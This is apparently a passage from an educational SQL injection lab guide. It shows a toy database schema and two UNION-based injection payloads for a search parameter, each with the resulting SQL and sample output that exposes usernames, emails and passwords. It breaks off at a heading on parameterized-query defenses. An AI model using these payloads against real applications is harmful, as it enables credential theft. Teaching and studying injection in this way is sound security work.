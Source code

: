### users table (4 columns)
```sql
CREATE TABLE users (
    id INTEGER PRIMARY KEY,
    username TEXT,                 -- Target for extraction
    email TEXT,                    -- Target for extraction
    password TEXT                  -- Sensitive target
);
```

### admin_users table (4 columns)
```sql
CREATE TABLE admin_users (
    id INTEGER PRIMARY KEY,
    admin_username TEXT,           -- High-value target
    admin_password TEXT,           -- Critical sensitive data
    role TEXT                      -- Privilege information
);
```

## Attack Examples with Detailed Explanations

### Basic Concatenation
```
?search=laptop' UNION SELECT NULL,username||':'||password FROM users--
```
**SQL Executed:**
```sql
SELECT id, name FROM products WHERE name LIKE '%laptop' UNION SELECT NULL,username||':'||password FROM users--%'
```
**Explanation**: Combines username and password with colon separator in the single visible column.

### Advanced Multi-Value Extraction
```
?search=laptop' UNION SELECT NULL,'User:'||username||'|Email:'||email||'|Pass:'||password FROM users--
```
**SQL Executed:**
```sql
SELECT id, name FROM products WHERE name LIKE '%laptop' UNION SELECT NULL,'User:'||username||'|Email:'||email||'|Pass:'||password FROM users--%'
```
**Result Mapping:**
- Column 1 (id): NULL → Not displayed
- Column 2 (name): Concatenated string → Shows as "User:john_doe|Email:john@email.com|Pass:password123"


## Prevention and Mitigation

### Primary Defense: Parameterized Queries

